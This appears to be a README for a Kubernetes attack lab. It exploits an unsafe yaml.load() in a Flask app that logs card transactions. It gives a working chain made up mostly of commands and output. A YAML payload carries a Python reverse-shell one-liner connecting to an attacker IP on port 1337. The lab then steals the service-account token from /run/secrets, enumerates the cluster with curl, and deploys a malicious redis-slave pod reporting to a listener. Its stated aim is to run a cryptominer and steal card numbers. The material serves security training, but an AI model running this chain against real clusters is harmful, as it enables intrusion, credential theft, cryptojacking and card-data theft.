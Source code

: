 ## Attacking a Kubernetes Cluster

### Start the Vulnerable K8s Cluster

1. Run `./setup_insecure_kube.sh` to start the vulnerable K8s Cluster. Wait for the command to be done
2. Run `./setup_flask_stack.sh` to start the flask stack to be run on the cluster. Wait for the command to complete

### Verifying that the K8s stack is running

1. Run `kubectl get pods` should give you something like this:

    ```
        NAME            READY     STATUS    RESTARTS   AGE
        ngflask-redis   3/3       Running   0          1m
    ```

Make sure the `Status` is `Running`

2. Run `kubectl get svc` to check for running services. You should see:

    ```
    NAME                    TYPE        CLUSTER-IP       EXTERNAL-IP   PORT(S)        AGE
    kubernetes              ClusterIP   10.96.0.1        <none>        443/TCP        15m
    ngflask-redis-service   NodePort    10.105.196.230   <none>        80:30070/TCP   1m

    ```

    Your `ngflask-redis-service` Cluster IP and Ports may vary based on your machine

3. Finally run `minikube service ngflask-redis-service --url` to get a full URL of the final service. Open your browser and paste this value.

It will be something like this `http://<IP>:<someport>`

Once you open in your browser, you must see this response: `Please POST JSON requests to this URL`. This means the service running correctly.

### Generating Artifacts

1. In a separate terminal or browser make an HTTP GET request to `http://<IP>:<someport>/generate`
It should come back with this response:
    ```
    {
        "success": "10 transactions generated successfully"
    }
    ```

Now, if you go to the `/status` url, you should see the latest transaction that has been logged by our app.

```
Latest Transaction Status
amount: 482
name: Samuel Chandler
card: ********8854
expiration: 425
Status: Success
```

#### Our objective is to compromise this cluster. Run our cryptominer and steal card numbers 😉

### Exploiting a Deserialization Flaw

* Our Flask app has a `yaml.load()` deserialization flaw. Using this flaw, one can potentially gain access to execute code on the backend-server. We will be using this vulnerability to exploit our app.
* Our app allows us to upload yaml files to capture expense information. We will load a malicious yaml file that should execute code for us.
* Run: `cd payloads`
* Run: (to upload the yaml file and identify the flaw)

```
http --form POST http://<IP>:<PORT>/upload file@test_payment.yml
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 26
Content-Type: application/json
Date: Sat, 15 Sep 2018 07:34:52 GMT
Server: nginx/1.11.13

{
    "success": "stored"
}
```
* Now go to the `/status` url, and you should see this (dump of all the environment variables)

### Reverse TCP Shell on our K8s Cluster

* you should be in the payloads directory. Open `reverse_shell.yml` with `atom reverse_shell.yml`
* change the external IP address to your VM's IP address with ifconfig. Also make sure that port 1337 is available on your VM
    `["echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.2.3\",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);' > shell.py && python shell.py &"]`
* open a separate terminal and start your netcat listener by running `nc -l 1337`
* Now run:

```
http --form POST http://<IP>:<PORT>/upload file@reverse_shell.yml
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 26
Content-Type: application/json
Date: Sat, 15 Sep 2018 07:43:59 GMT
Server: nginx/1.11.13

{
    "success": "stored"
}
```

You should have gotten a netcat reverse TCP shell!
```
nc -l 1337
/bin/sh: can't access tty; job control turned off
/app #

```
Now you can interact with your target app and backend K8s cluster

**NOTE: Do NOT use the clear or Commd/Ctrl+C key. you will lose access to the shell**

### Pivoting to K8s cluster

* Navigate to `cd /run/secrets/kubernetes.io/serviceaccount` and run `ls -al`
* open and copy the token with `cat token` and copy to clipboard
* Now run: `export TOKEN=(paste token value here)`
* We are now going to masquerade with the cluster-admin's token.
* Let's start interacting with K8s API

    `curl -s https://10.96.0.1/api/v1/namespaces/default/pods -XGET -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --insecure`
    
    `curl -s https://10.96.0.1/api/v1/namespaces/default/services -XGET -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --insecure`

You should see a JSON Dump of all the pods and services running in the cluster at this time

Note `clusterIP` of the `redis-service` Service.

Open a new tab in terminal and launch a web-server by running `./tornado_server.py`

Change the value of `MASTERHOST` with the value of `clusterIP`.

Change the value of `LISTENER_IP` with the VM IP that can be fetched by running `ifconfig`

Change the value of `LISTENER_PORT` to the port web-server is running on(`9090`)

```
cat > mal-redis.json <<EOF
{
    "kind": "Pod",
    "apiVersion": "v1",
    "metadata": {
        "name": "mal-redis"
    },
    "spec": {
        "containers": [{
            "name": "mal-redis",
            "image": "we45/malicious-redis-slave",
            "env": [
              {
                "name": "MASTERHOST",
                "value": "10.109.162.114"
              },
              {
                "name": "MASTERPORT",
                "value": "6379"
              },
              {
                "name": "LISTENER_IP",
                "value": "192.168.2.116"
              },
              {
                "name": "LISTENER_PORT",
                "value": "3999"
              }
            ]
        }]
    }
}
EOF
```

`curl -s https://10.96.0.1/api/v1/namespaces/default/pods -XPOST -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" -d@mal-redis.json --insecure`

`curl -s https://10.96.0.1/api/v1/namespaces/default/services -XGET -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --insecure`
